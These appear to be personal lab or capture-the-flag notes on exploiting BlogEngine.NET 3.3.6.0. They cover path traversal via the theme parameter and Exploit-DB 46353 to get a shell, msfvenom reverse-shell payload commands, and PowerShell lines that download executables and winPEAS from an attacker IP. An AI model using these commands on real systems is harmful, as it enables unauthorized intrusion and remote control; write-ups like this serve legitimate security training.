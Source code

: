 BlogEngine.NET

Version: 3.3.6.0 

https://www.exploit-db.com/exploits/46353

change the exploit and rename to PostView.ascx


![[Pasted image 20210527190559.png]]


![[Pasted image 20210527191454.png]]
and publish

go to 
http://10.10.201.122/?theme=../../App_Data/files

and we got the shell 

![[Pasted image 20210527191738.png]]

![[Pasted image 20210527191809.png]]

## shell upgrade(meterpreter)
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.17.4.208 LPORT=9001 -f exe -o exploit.exe`

transfer and run

`cd C:\Windows\Temp`

`powershell -c wget "http://10.17.4.208/exploit.exe" -outfile exploit.exe`

![[Pasted image 20210527193137.png]]


## shell upgrade(without meterpreter)
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.4.208 LPORT=9001 -f exe -o exploit1.exe`

`powershell -c wget "http://10.17.4.208/exploit1.exe" -outfile exploit1.exe`

![[Pasted image 20210527210947.png]]

powershell -c wget "http://10.17.4.208/winpeas.bat" -outfile winpeas.bat

and running it does not show the sysinfo

![[Pasted image 20210527214553.png]]

also transferring the winpeasx64 was taking ages..

so run
`systeminfo | findstr /i date`

![[Pasted image 20210527214612.png]]